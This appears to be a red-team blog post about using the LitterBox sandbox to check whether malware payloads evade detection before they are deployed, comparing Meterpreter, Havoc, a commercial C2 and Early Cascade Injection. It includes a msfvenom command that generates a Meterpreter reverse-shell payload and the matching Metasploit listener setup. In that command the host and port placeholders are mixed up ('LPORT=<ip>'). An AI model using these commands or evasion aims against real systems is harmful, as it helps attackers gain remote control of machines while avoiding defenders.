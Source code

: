 ```yaml
---
layout: post
title: "LitterBox: The Sandbox for Malware Developers"
date: 2025-02-19 00:32:00 +0100
categories:
  - Red Team
  - Malware
author: kuom
---
```

It is important to test malware before deploying it to make sure it is FUD (Fully Undetectable) and it doesn't have any IoC (Indicator of Compromise). <br>
Lately I tried a nice [sandbox](https://github.com/BlackSnufkin/LitterBox). It offers both analysis and dynamic analysis, plus scanning a running process and doing memory analysis at runtime.
### Installation
Recommended on Windows; fairly simple: git clone and execute python litterbox.py.
### Samples
We will try different samples, from a basic meterpreter reverse shell to more advanced payloads.
The focus today is to test how this sandbox react and with different level C2 and different levels of evasiveness.
#### Meterpreter
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=<host> LPORT=<ip>
msfconsole
use exploit/multi/handler
set LPORT <port>
set LHOST <ip>
```
![](/assets/Screenshot-2025-01-21-161217.png)
![](/assets/Screenshot-2025-01-21-161301.png)
#### Havoc
Set up an https listener and generate a payload with the following options, this time we wll use the Active process sandbox capabilities
![](/assets/Screenshot-2025-01-21-151238.png)
##### Active Process Inspection
![](/assets/Screenshot-2025-01-21-162202.png)

![](/assets/Screenshot-2025-01-21-162224.png)

![](/assets/Screenshot-2025-01-21-162318.png)
#### Commercial C2
![](/assets/Pasted-image-20250122185634.png)
#### Early Cascade Injection + Meterpreter shellcode
For the last one, I will load the shellcode using the Early Cascade Injection technique. It seems fairly effective regarding evasiveness.
Read more [here](https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/).
![](/assets/Pasted-image-20250122184535.png)
